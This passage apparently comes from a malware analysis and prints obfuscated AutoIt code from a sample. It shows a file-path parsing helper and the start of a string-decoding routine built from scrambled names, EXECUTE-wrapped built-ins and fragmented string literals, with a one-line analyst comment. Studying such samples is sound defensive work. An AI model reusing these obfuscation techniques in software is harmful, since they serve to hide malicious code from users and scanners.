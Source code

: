 ```autoit
  IF $FileResultArray="" THEN RETURN $SetError_(4,0,0)

  RETURN $StringSplit_($StringTrimLeft_($FileResultArray,1),"|")
ENDFUNC

FUNC SplitAndFind($ParamFile,BYREF $BVYYIE,BYREF $AEPROSJNE,BYREF $FileFindNextFileResult,BYREF $QMFGSQ)

  GLOBAL $StringLeft_=EXECUTE("StringLeft")
  LOCAL $ArrayFilesEncountred=$StringRegExp_($ParamFile,"^\h*((?:\\\\\?\\)*(\\\\[^\?\/\\]+|[A-Za-z]:)?(.*[\/\\]\h*)?((?:[^\.\/\\]|(?(?=\.[^\/\\]*\.)\.))*)?([^\/\\]*))$",1)
  
  IF @ERROR THEN
  REDIM $ArrayFilesEncountred[5]
    $ArrayFilesEncountred[0]=$ParamFile
  ENDIF

  $BVYYIE=$ArrayFilesEncountred[1]

  IF $StringLeft_($ArrayFilesEncountred[2],1)=="/" THEN
    $AEPROSJNE=$StringRegExpReplace_($ArrayFilesEncountred[2],"\h*[\/\\]+\h*","\/")
  ELSE
    $AEPROSJNE=$StringRegExpReplace_($ArrayFilesEncountred[1+1],"\h*[\/\\]+\h*","\/")
  ENDIF

  $ArrayFilesEncountred[2]=$AEPROSJNE
  $FileFindNextFileResult=$ArrayFilesEncountred[2+1]
  $QMFGSQ=$ArrayFilesEncountred[4]
  RETURN $ArrayFilesEncountred
ENDFUNC

```

This function is responsible for performing the decoding of the strings of the program itself.

```Autoit
FUNC Decode($StringsEncode)
  $XPQOOZ=""&$YCLACZVNNZOG&""&$EOCTVVV[14]&""&$EOCTVVV[15]&SINAWC()&""&OCNSJHHOSQDJ()&""&$RXWZPEFILS&""&$EOCTVVV[16]&""&")5"&""&"9T1"&$RHKIHDGDGX&$EOCTVVV[17]&""&"?"&DZUPOGTUXR()&""&"z"&"g"&""&$EOCTVVV[18]&APLNXHRQ()&QGCNCO()&"V"&""&WTVOGTOPP()&""&DYVWO()&""&"A"&$EOCTVVV[19]&$MDKPXUPBB&""&$HYUREKFOJMC&TTRYCRQATMI()&""&IJWSLDK()&"O,"&""&QAIAIHGKNDGE()&""&$EOCTVVV[20]&""&LPCFGTKYZ()&"[s"&""&DHSHVQA()&$EOCTVVV[21]&$NGGTGGHDS&""&AWPVA()&""&XLFJWIPWQ()&$LDPPIVQWSY&$EOCTVVV[22]&""&UODPJ()&""&$AZMXZSFSDOF&$ERPDDZ&"3"&""&$EOCTVVV[23]&"q"&"x+"&""&VVJJK()&""&$EOCTVVV[24]&""&"K"&"X"&LMQDRXKP()&""&$ZWPAL&""&$EOCTVVV[25]&""&"4l"&""&"'de"&$PCQNAJCZJEH&"Wr"&ZDPDXWCHDQCY()&"("&""&"Q"&""&"BcZ"&""&"t"&$SNAQZVBS&$EOCTVVV[26]
  $BHKIWWOS="?"&"C$"&""&$GUNSUGIERG&","&PIRKSC()&""&"P_"&""&$EOCTVVV[27]&""&"y"&""&$EOCTVVV[28]&""&"B"&""&GCRZASZDFFK()&""&JVIBR()&"V"&""&$GOXJHDJA&""&$APDHXSEK&"Y"&""&$QQSGQXFEU&""&$EOCTVVV[29]&""&$EOCTVVV[30]&"i"&""&AIFCEBFQNBN()&""&QMYDLQKZ()&""&$BJJCHEX&""&$EOCTVVV[31]&""&"2"&DTCEPUG()&""&OGAZDBVLUBDA()&"- "&""&$VHTHREY&GRZTOZ()&""&$DGCBFXKIW&""&"r"&RGQHXQMWJHQQ()&$ZGONE&$GYCMSIUDXY&"="&""&BNHMDS()&""&$EOCTVVV[32]&$HJWJLY&"LxZ"&"g"&""&$PZRIQGFNU&LCBVCBYCJ()&$EOCTVVV[33]&""&$ICLHHWJR&$MMSENNUOOPCW&MOMMMDJYN()&""&$EOCTVVV[34]&$VLTTTNNGDI&""&HQYBXOGLYSFN()&$EOCTVVV[35]&$EOCTVVV[36]&""&$EOCTVVV[37]&""&"R"&"A"&"sa1Uo"&$OBMPNNHQ
  LOCAL $StringInStr_=EXECUTE("StringInStr")
  LOCAL $StringMid_=EXECUTE("StringMid")
  LOCAL $StringLen_=EXECUTE("StringLen")
  $HFCNRSXTLZ=""
  
  LOCAL $RVWLPW[5]
  $RVWLPW[0]="swtsnAHmOVJXAkjqy"
  $RVWLPW[1]="RonhCluOBYNwPHrxDluUDBjgvv"
  $RVWLPW[2]="dcVLrdWjeQwnfqWGXcQZKDPoOjxdMBPn"
  $RVWLPW[3]=TRUE
  $RVWLPW[4]="sgEZakFLKLQqrdMmfEntnxfyZuKgIoQWh"
  
```